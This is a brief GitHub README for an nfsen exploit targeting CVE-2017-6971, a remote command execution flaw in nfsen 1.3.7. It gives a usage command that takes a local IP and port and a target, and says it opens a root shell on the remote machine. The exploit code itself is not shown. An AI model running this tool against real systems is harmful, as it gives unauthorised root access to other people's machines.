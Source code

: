# nfsen-exploit
Exploit for CVE-2017-6971 remote command execution in nfsen 1.3.7.

Tested on Ubuntu, probably works on everything

Vulnerability discovered by Paul Taylor/Foregenix Ltd

**Usage:** `python exploit.py <local ip> <local port> <target ip> <path>`
This generates a root-level shell on the remote machine.
